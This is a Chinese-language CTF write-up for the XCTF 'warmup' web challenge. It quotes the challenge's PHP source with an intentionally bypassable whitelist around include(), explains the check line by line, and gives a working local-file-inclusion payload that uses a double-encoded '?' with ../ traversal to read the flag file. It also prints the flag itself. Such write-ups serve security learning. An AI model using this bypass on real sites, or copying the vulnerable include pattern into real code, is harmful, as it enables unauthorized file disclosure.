 https://blog.csdn.net/qq_42016346/article/details/104199710
# 一、warmup

题目链接：https://adworld.xctf.org.cn/task/task_list?type=web&number=3&grade=1&page=1

# 二、使用步骤

## 1.点击获取在线场景

![在这里插入图片描述](https://img-blog.csdnimg.cn/cf723cc2e373432197a7a9a3f7a01931.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5oSa5YWs5pCs5Luj56CB,size_20,color_FFFFFF,t_70,g_se,x_16)

## 2.进入页面

![在这里插入图片描述](https://img-blog.csdnimg.cn/85506fcba0fa476b9399357bb008e9ec.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5oSa5YWs5pCs5Luj56CB,size_20,color_FFFFFF,t_70,g_se,x_16)  
打开source.php页面  
![在这里插入图片描述](https://img-blog.csdnimg.cn/9c4844cc8fe14f3f8b67c95942351804.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5oSa5YWs5pCs5Luj56CB,size_20,color_FFFFFF,t_70,g_se,x_16)

```python
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

得到另一个地址/hint.php，打开以后提示我们flag在ffffllllaaaagggg里面

![在这里插入图片描述](https://img-blog.csdnimg.cn/18264c86cd05474a9e7a136795e6d874.png)  
继续审计source.php代码

```python
if (! empty($_REQUEST['file'])  //$_REQUEST['file']值非空
    && is_string($_REQUEST['file'])  //$_REQUEST['file']值为字符串
    && emmm::checkFile($_REQUEST['file'])  //能够通过checkFile函数校验
) {
    include $_REQUEST['file'];  //包含$_REQUEST['file']文件
    exit;
} else {
    echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    //打印滑稽表情
} 
```

需要满足三个条件

```python
1.值为非空
2.值为字符串
3.能够通过checkFile()函数校验
```

checkFile()函数如下

```python
highlight_file(__FILE__); //打印代码
class emmm  //定义emmm类
{
    public static function checkFile(&$page)//将传入的参数赋给$page
    {
        $whitelist = ["source"=>"source.php","hint"=>"hint.php"];//声明$whitelist（白名单）数组
        if (! isset($page) || !is_string($page)) {//若$page变量不存在或非字符串
            echo "you can't see it";//打印"you can't see it"
            return false;//返回false
        }
 
        if (in_array($page, $whitelist)) {//若$page变量存在于$whitelist数组中
            return true;//返回true
        }
 
        $_page = mb_substr(//该代码表示截取$page中'?'前部分，若无则截取整个$page
            $page,
            0,
            mb_strpos($page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }
 
        $_page = urldecode($page);//url解码$page
        $_page = mb_substr(
            $_page,
            0,
            mb_strpos($_page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }
        echo "you can't see it";
        return false;
    }
}
```

分析代码得到

```python
http://111.200.241.244:60372/source.php?file=source.php%253f../../../../../ffffllllaaaagggg
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/7b7bb55350d64c71927163dcff8fea1b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5oSa5YWs5pCs5Luj56CB,size_20,color_FFFFFF,t_70,g_se,x_16)  
发现flag：`flag{25e7bce6005c4e0c983fb97297ac6e5a}`